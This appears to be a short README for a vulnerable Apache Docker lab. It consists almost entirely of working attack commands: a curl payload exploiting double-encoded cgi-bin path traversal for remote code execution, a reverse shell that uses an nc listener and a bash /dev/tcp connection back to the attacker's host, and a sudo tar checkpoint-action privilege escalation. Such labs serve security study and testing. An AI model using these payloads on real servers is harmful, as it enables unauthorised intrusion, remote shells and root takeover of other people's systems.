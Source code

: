 # Build and start the vulnerable docker :
`chmod +x ./build.sh && ./build.sh`

# Obtain a shell from the docker :
`docker exec -it apache-vuln /bin/bash`

# RCE via Apache server :
`curl -s --path-as-is 'http://<IP>:4444/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; whoami'`

# Reverse shell via Apache Server :
## Step 1 :
  On your host, set up a listener :
`nc -nvlp <port>`
## Step2 :
  On your host, use curl to execute code on the Apache Server :
`curl -s --path-as-is 'http://<IP>:4444/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; bash -c "/bin/sh -i >& /dev/tcp/<your host IP>/<your listener port> 0>&1"'`

# Privesc
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

